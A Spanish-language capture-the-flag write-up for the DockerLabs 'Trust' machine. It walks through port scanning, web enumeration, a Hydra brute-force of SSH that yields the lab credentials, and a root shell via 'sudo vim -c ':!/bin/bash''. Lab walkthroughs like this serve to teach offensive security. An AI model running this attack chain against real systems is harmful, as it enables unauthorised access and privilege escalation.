




# DockerLabs - Trust

Lo primero que hice fue realizar un escaneo general sobre la IP de la víctima para identificar qué puertos tenía abiertos.

sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2

Gracias al escaneo pude identificar dos servicios importantes:

* Puerto 22 -> SSH
* Puerto 80 -> HTTP

---

Luego procedí a realizar enumeración web utilizando Gobuster para intentar descubrir archivos o directorios ocultos dentro del servidor.

gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt

Gracias a esto encontré el archivo:

* secret.php

---

Después accedí al archivo encontrado para revisar su contenido.

curl http://172.18.0.2/secret.php

El mensaje mostraba una referencia al usuario `mario`, por lo que ya tenía un posible usuario válido para SSH.

---

Con el usuario identificado decidí realizar un ataque de fuerza bruta al servicio SSH utilizando Hydra junto al diccionario rockyou.txt.

hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2

El ataque fue exitoso y logré obtener las credenciales:

* Usuario: mario
* Contraseña: chocolate

---

Con las credenciales encontradas intenté acceder al sistema mediante SSH.

ssh mario@172.18.0.2

El acceso fue exitoso y conseguí una shell dentro del sistema.

---

Una vez dentro del sistema, el siguiente paso fue revisar los permisos sudo del usuario.

sudo -l

El resultado mostraba que el usuario `mario` podía ejecutar `vim` como root.

---

Aprovechando estos permisos utilicé vim para ejecutar una shell privilegiada.

sudo vim -c ':!/bin/bash'

Finalmente verifiqué los privilegios obtenidos.

whoami

Resultado:

root

---

Máquina comprometida exitosamente ✅
